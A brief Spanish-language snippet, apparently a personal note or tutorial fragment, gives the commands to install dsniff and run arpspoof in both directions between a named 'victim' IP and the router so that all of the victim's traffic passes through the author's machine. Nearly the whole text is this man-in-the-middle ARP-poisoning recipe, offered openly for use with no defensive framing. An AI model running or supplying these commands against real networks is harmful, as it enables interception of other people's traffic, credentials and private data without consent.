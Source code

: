 apt-get install dsniff

En centos está en el epel

Hacemos arpspoof para que todo el tráfico pase por mi pc
arpspoof -i eth0 -t ip.de.la.victima ip.del.router
arpspoof -i eth0 -t ip.del.router ip.de.la.victima

